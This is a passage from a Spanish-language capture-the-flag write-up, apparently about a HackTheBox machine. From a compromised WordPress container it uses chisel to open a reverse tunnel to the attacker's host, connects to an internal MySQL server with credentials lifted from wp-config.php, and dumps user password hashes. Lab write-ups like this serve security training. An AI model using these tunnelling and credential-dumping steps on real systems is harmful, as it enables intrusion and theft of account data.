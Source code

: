 Nos conectaremos como cliente desde el contenedor al puerto que hemos escogido

~~~ bash
www-data@8e3a72b5e980:/var/www/html/wordpress$ chmod +x chisel
www-data@8e3a72b5e980:/var/www/html/wordpress$ ./chisel client 10.10.15.9:8000 R:127.0.0.1:3306:172.17.0.1:3306
2025/05/03 18:07:13 client: Connecting to ws://10.10.15.9:8000
2025/05/03 18:07:15 client: Connected (Latency 180.11053ms)
~~~

En nuestro servidor `chisel` debemos ver que se abre el túnel con el puerto `3306` de nuestra máquina que comunica con el puerto `3306` remoto

~~~ bash
chisel server -p 8000 --reverse

2025/05/03 14:06:06 server: Reverse tunnelling enabled
2025/05/03 14:06:06 server: Fingerprint VHcpNzlwX/tNdDUh/6ytZmsXpOCy8/Ik/aCKzgCzzJE=
2025/05/03 14:06:06 server: Listening on http://0.0.0.0:8000 proxy#R:127.0.0.1:3306=>172.17.0.1:3306: Listening
~~~


## MySQL Querying - Wordpress Database

Ahora podemos conectarnos a `mysql` utilizando las credenciales que extrajimos del archivo `wp-config.php`

~~~ bash
mysql -u wp_user -p'wp_password' -h 127.0.0.1
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MySQL connection id is 329
Server version: 8.0.32 MySQL Community Server - GPL

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MySQL [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| performance_schema |
| wordpress          |
+--------------------+
3 rows in set (0.649 sec)
~~~

Como ya conocemos la estructura de la base de datos de `wordpress` (en teoría). Consultaremos los registros existentes de **usuarios** filtrando por los campos que nos interesan en la tabla `wp_users`

~~~ bash
MySQL [(none)]> select user_login,user_pass,user_email from wordpress.wp_users;
+------------+------------------------------------+----------------------+
| user_login | user_pass                          | user_email           |
+------------+------------------------------------+----------------------+
| root       | $P$Beh5HLRUlTi1LpLEAstRyXaaBOJICj1 | root@bigbang.htb     |
| shawking   | $P$Br7LUHG9NjNk6/QSYm2chNHfxWdoK./ | shawking@bigbang.htb |
+------------+------------------------------------+----------------------+
2 rows in set (0.191 sec)
~~~
